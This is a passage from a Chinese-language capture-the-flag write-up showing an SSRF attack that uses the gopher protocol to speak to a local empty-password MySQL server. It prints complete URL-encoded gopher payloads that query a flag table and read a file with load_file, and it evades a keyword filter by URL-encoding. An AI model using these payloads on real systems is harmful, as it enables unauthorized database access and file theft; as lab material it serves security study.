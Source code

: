 得到 this is your flag C1ctf{Php\_1s\_best\_language\_in\_the_world}  

### 0x04 今年还有小姐姐

fuzz 一下 file:// 被过滤了, 然后看了下 HINT. 发现在 info.php 左下角非常猥琐的藏着 sql 语句...

![](https://i.loli.net/2019/03/08/5c826e702af72.png)

基本上可以确定是 gopher + ssrf 了

让他访问 http://127.0.0.1:3306 也确实可以得到 mysql 的 banner

![](https://i.loli.net/2019/03/08/5c826e89d5c9b.png)

具体原理可以看[这里](https://www.freebuf.com/articles/web/159342.html), 简单来说 gopher 协议可以将任意内容通过 tcp 发送, 而 mysql 在空密码时握手包的内容是固定的, 我们就可以通过 gopher 来读取数据库中的内容

这里可以通过在本地搭一个空密码的 root 账号的 mysql 加上 wireshark 来重放一遍客户端发送的数据, 得到服务器上数据库的应答

这里可以用 -e 选项来直接执行命令. 通过提示里的表结构可以构造如下语句

```sh
mysql -u root -e "SELECT path FROM ctf.flag" -h127.0.0.1
```

然后在 wireshark 里面导出以后用 urlencode 一下加在 gopher://127.0.0.1:3306/A 后面(注意A留着, 不能删), 这里我的 payload 是 

`gopher://127.0.0.1:3306/A%A4%00%00%01%85%A2%3F%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00root%00%00mysql_native_password%00g%03_os%05Linux%0C_client_name%08libmysql%04_pid%0520083%0F_client_version%0710.1.37%09_platform%06x86_64%0Cprogram_name%05mysql%1A%00%00%00%03SELECT%20path%20FROM%20ctf.flag%01%00%00%00%01`

![](https://i.loli.net/2019/03/08/5c826ec9b4061.png)

`/var/lib/mysql-files/flag.txt` 即是路径, 再通过 load_file 来读取它

```sh
mysql -u root -e "SELECT load_file('/var/lib/mysql-files/flag.txt')" -h127.0.0.1
```

得到 payload 

`gopher://127.0.0.1:3306/A%A4%00%00%01%85%A2%3F%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00root%00%00mysql_native_password%00g%03_os%05Linux%0C_client_name%08libmysql%04_pid%0520924%0F_client_version%0710.1.37%09_platform%06x86_64%0Cprogram_name%05mysql2%00%00%00%03SELECT%20load_file%28%27/var/lib/mysql-files/flag.txt%27%29%01%00%00%00%01`

然后你会得到... 

![](https://i.loli.net/2019/03/08/5c826ef30a8bd.png)

太真实了, 再 fuzz 一下, 发现过滤了 file 和 - 字符, 直接 urlencode 一下就可以 bypass, 得到新的 payload 

`gopher://127.0.0.1:3306/A%A4%00%00%01%85%A2%3F%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00root%00%00mysql_native_password%00g%03_os%05Linux%0C_client_name%08libmysql%04_pid%0520924%0F_client_version%0710.1.37%09_platform%06x86_64%0Cprogram_name%05mysql2%00%00%00%03SELECT%20load_%66ile%28%27/var/lib/mysql%2dfiles/flag.txt%27%29%01%00%00%00%01`

![](https://i.loli.net/2019/03/08/5c826f0a88582.png)
